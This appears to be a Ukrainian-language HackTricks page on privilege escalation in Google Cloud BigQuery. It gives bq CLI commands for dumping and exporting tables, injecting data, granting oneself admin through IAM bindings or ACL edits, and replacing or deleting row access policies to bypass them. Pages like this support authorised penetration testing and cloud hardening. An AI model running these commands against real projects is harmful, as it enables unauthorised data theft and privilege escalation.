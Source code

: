 # GCP - BigQuery Privesc

{{#include ../../../banners/hacktricks-training.md}}

## BigQuery

Для отримання додаткової інформації про BigQuery перегляньте:

{{#ref}}
../gcp-services/gcp-bigquery-enum.md
{{#endref}}

### Читання таблиці

Читання інформації, що зберігається в таблиці BigQuery, може дозволити знайти s**ensitive information**. Для доступу до інформації потрібні дозволи **`bigquery.tables.get`**, **`bigquery.jobs.create`** та **`bigquery.tables.getData`**:
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### Експорт даних

Це ще один спосіб доступу до даних. **Експортуйте їх у хмарне сховище** і **завантажте файли** з інформацією.\
Для виконання цієї дії потрібні наступні дозволи: **`bigquery.tables.export`**, **`bigquery.jobs.create`** та **`storage.objects.create`**.
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### Вставка даних

Можливо, що **ввести певні довірені дані** в таблицю Bigquery, щоб зловживати **вразливістю в іншому місці.** Це можна легко зробити з правами **`bigquery.tables.get`**, **`bigquery.tables.updateData`** та **`bigquery.jobs.create`**:
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
### `bigquery.datasets.setIamPolicy`

Зловмисник може зловживати цим правом, щоб **надати собі додаткові дозволи** на набір даних BigQuery:
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

Ця дозволяє **оновити ваш доступ до набору даних BigQuery, змінюючи ACL,** які вказують, хто може отримати доступ до нього:
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```
### `bigquery.tables.setIamPolicy`

Зловмисник може зловживати цим правом, щоб **надати собі додаткові дозволи** на таблицю BigQuery:
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

Згідно з документацією, з вказаними дозволами можливо **оновити політику рядка.**\
Однак, **використовуючи cli `bq`** вам потрібно ще дещо: **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**.
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```
Можливо знайти ID фільтра у виході перерахунку політик рядків. Приклад:
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
Якщо у вас є **`bigquery.rowAccessPolicies.delete`** замість `bigquery.rowAccessPolicies.update`, ви також можете просто видалити політику:
```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```
> [!CAUTION]
> Іншим потенційним варіантом обходу політик доступу до рядків може бути просто зміна значення обмежених даних. Якщо ви можете бачити лише тоді, коли `term` дорівнює `Cfba`, просто змініть всі записи таблиці, щоб мати `term = "Cfba"`. Однак це заважає bigquery.

{{#include ../../../banners/hacktricks-training.md}}
